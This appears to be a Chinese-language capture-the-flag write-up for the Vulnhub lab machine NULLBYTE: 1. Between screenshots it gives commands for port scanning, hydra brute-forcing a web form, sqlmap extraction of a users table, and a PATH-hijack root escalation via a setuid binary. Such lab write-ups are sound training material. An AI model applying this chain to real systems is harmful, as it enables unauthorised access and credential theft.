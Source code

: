 ```yaml
---
title: Vulnhub 126 NULLBYTE 1 简
date: 2015-08-01
---
```


靶机链接：<https://www.vulnhub.com/entry/nullbyte-1,126/>

<!--more-->

## 环境配置

| 名称        | IP             |
| ----------- | -------------- |
| Kali Linux  | 192.168.88.153 |
| NULLBYTE: 1 | 192.168.88.152 |

## 初步打点

### 端口扫描

```bash
$ export rip=192.168.88.152
$ sudo nmap -v -A -p- $rip
```


![](./1.webp)

![](./2.webp)

![](./3.webp)

```bash
$ exiftool main.gif 
```

![](./4.webp)

![](./5.webp)

```bash
$ hydra -l "" -P /usr/share/dirb/wordlists/big.txt 192.168.88.152 http-post-form 
```

![](./6.webp)

![](./7.webp)

![](./8.webp)

![](./9.webp)

![](./10.webp)

```bash
$ sqlmap -u "http://192.168.88.152/kzMb5nVYJw/420search.php?usrtosearch=test"
$ sqlmap -u "http://192.168.88.152/kzMb5nVYJw/420search.php?usrtosearch=test" --dbs
$ sqlmap -u "http://192.168.88.152/kzMb5nVYJw/420search.php?usrtosearch=test" --tables -D seth
$ sqlmap -u "http://192.168.88.152/kzMb5nVYJw/420search.php?usrtosearch=test" --dump -T users  -D seth
```

![](./11.webp)

![](./12.webp)

![](./13.webp)

![](./14.webp)

![](./15.webp)

```bash
$ cp /bin/sh /tmp/ps
$ echo $PATH
$ export PATH=/tmp/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
$ ./procwatch
```

![](./16.webp)
